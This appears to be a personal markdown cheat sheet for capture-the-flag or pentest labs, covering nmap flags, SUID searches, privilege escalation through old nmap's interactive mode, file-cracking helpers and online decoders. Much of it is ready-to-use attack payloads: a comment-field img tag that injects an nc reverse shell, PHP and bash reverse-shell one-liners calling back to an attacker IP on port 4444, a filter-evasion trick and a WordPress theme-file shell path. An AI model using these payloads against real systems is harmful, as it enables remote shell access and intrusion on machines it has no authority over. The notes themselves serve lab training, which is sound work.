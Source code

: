 ### -sC flag in nmap runs a set of default NSE scripts, some of them are intrusive so this should not be run against real machines.


### -A flag means agressive. It consists of 
-A: Enable OS detection, version detection, script scanning, and traceroute

### nmap run without sudo does TCP scan (-sT) and with sudo SYN scan (-sS). SYYN scan is better as it is a stealth one - sends RST flag to server so it avoids getting detected by firewall (for example). On the other side, it can destabilize weak applications on a server .

### To check if there is a nse script for X service:

#### grep "X" /usr/share/nmap/scripts/script.db


#### Getting rev shell when there is a chance to write a comment
<img src=http://10.6.46.150/$(nc.traditional$IFS-e$IFS/bin/bash$IFS'10.6.46.150 '$IFS'4444')>

 

#### SPAWNING INTTERACTING SHELL WITH PYTHON
python3 -c 'import pty;pty.spawn("/bin/bash")'   


#### GETTING A LIST OF SUID FILES
find / -perm -u=s -type f 2>/dev/null
---> finds all binaries with suuid permission

#### link to access a modified WP theme (to get rev shell)
http://10.10.142.159/wp-content/themes/twentyfifteen/404.php 


# if there is a filtering, it is needed to add command in backslashes e.g `l\s -la`


# PHP REV SHELL ONE LINER
php -r '$sock=fsockopen("10.6.46.150",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

# BASH REV SHELL ONELINER
bash -i &>/dev/tcp/10.6.46.150/4444 <&1


# There are many different converters to john format
bin2john / zip2john / gpg2john 

#
7z is a file to extract

#
binwalk -->> tool to check of there is a zip file inside .png image
`binwalk -e file`

# NMAP SHELL
old version of nmap can be used to escalate to root
nmap --versiob
nmap --interactive
and then `!sh`

#
BRAINFUCK decoder

https://www.splitbrain.org/_static/ook/

++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>++++++++++++++.------------.+++++.>+++++++++++++++++++++++.<<++++++++++++++++++.>>-------------------.---------.++++++++++++++.++++++++++++.<++++++++++++++++++.+++++++++.<+++.+.>----.>++++.

#
XOR DECODER

http://xor.pw/#

#
SPEECH TO TEXT CONVERTER

https://speech-to-text-demo.ng.bluemix.net/
